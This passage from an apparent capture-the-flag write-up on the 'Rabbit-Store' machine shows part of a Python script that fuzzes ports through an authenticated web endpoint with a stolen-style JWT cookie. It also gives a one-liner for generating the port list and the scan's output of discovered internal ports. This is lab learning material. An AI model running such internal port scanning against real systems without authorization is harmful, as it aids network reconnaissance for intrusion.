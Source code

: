 ```python
    if response.status_code == 200:
        try:
            json_response = response.json()
            print(f"[+] Open port fond: {fuzz}")
        except Exception as e:
            print(f"[-] Error parsing response: {e}")
    else:
        if response.status_code == 500:
            pass
        else:
            print(f"[-] Request failed with status {response.status_code}")

def fuzz_dirs(wordlist, max_threads=5):
    with open(wordlist, "r") as f, ThreadPoolExecutor(max_threads) as executor:
        executor.map(fuzz_dir, (line.strip() for line in f))

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <wordlist>")
        sys.exit(1)
    
    wordlist_path = sys.argv[1]
    fuzz_dirs(wordlist_path)
```
{: file='port_scanner.py'}

You can generate a sequence of all ports with this one-liner:
```terminal
seq 0 65537 > ports.txt
```

**Note:** Don't forget to replace the JWT with the JWT from your cookies. This script can take a while (I don't want to overload the server).
```
$ python3 port_scanner.py ports.txt
[+] Open port fond: 80
[+] Open port fond: 3000
[+] Open port fond: 8000
[+] Open port fond: 15672
```

Now I continued checking the content of each port. Port 80 as expected contains the web app.

![](/assets/blog/Rabbit-Store/3000.png)
